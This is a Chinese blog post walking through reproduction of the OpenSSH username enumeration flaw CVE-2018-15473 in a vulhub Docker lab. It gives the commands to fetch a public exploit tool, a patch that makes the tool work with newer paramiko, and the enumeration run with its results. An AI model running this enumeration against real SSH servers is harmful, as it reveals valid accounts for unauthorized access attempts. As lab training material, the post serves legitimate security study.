



# 避坑版-OpenSSH 用户名枚举漏洞（CVE-2018-15473） - namp - 博客园

> 原文：[`www.cnblogs.com/su-sds/p/17414659.html`](https://www.cnblogs.com/su-sds/p/17414659.html)

## 介绍：

OpenSSH 7.7 前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机中，在复现过程中遇到了很多坑，这里我就把遇到坑和解决方法告诉大家！！！

## 漏洞环境：

靶机：Ubuntu(vulhub)

IP：192.168.0.103

攻击机：kali

IP：192.168.0.104

## 漏洞复现：

**1.开启环境**

```
＃cd vulhub-master/openssh/CVE-2018-15473     //进入目录
＃docker-compose build
＃docker-compose up -d      //开启环境
```

 

 环境启动后，我们在 kali 执行 ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@192.168.0.103 -p20022，输入密码 vulhub，即可登录到容器中，这里我就不在演示了。

**2.工具下载**

使用 **[CVE-2018-15473-Exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)** 工具进行用户名枚举。

其中在 kali 里面下载

```
＃wget http://github.com/Rhynorater/CVE-2018-15473-Exploit/archive/refs/heads/master.zip      //使用 wget 下载
＃unzip master.zip      //解压
```

其中注意！在复制下载压缩包连接到 kali 下载时复制是 https,可能会下载失败，这里解决方法是改成 http,如果还是下载失败，建议本机下载复制到 kali 里。


** 3.漏洞复现**

首先进入解压好的文件夹里，通过运行`pip install -r requirements.txt`安装依赖。


可能会出现一下报错信息

`WARNING: Running pip as the 'root' user can result in broken permissions and conflicting behaviour with the system package manager. It is recommended to use a virtual environment instead: https://pip.pypa.io/warnings/venv `

 提示以“root”用户身份运行 pip 可能会导致权限损坏和冲突，因此我们需要创造一个虚拟的环境区执行它。

```
＃python3 -m venv tutorial-env    //创建一个虚拟环境
＃source tutorial-env/bin/activate   //激活环境

＃pip install -r requirements.txt   //再次安装依赖
```

 

添加几个用户名到 exampleInput.txt 里

```
root
example
vulhub
nobody
rootInvalid
user
phithon
123
321
```



运行命令进行用户名枚举

```
＃python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt 192.168.0.103
```

会发现有报错


`Traceback (most recent call last):`
`  File "/root/桌面/CVE-2018-15473-Exploit-master/sshUsernameEnumExploit.py", line 33, in <module>`
`    old_parse_service_accept = paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT]`
`                               ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^`
`TypeError: 'property' object is not subscriptable`

 这里要修改的有三处地方，都是在 _handler_table 换成 _client_handler_table。

第一处在 sshUsernameEnumExploit.py 脚本的 33 行

第二处在 124 行

第三处在 125 行


 在运行脚本

```
＃python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt 192.168.0.103
```

可以看到成功枚举出用户名

 

 可见，`root`、`example`、`vulhub`、`nobody`是存在的用户，`rootInvalid`、`user`、`phithon`、123、321 是不存在的用户。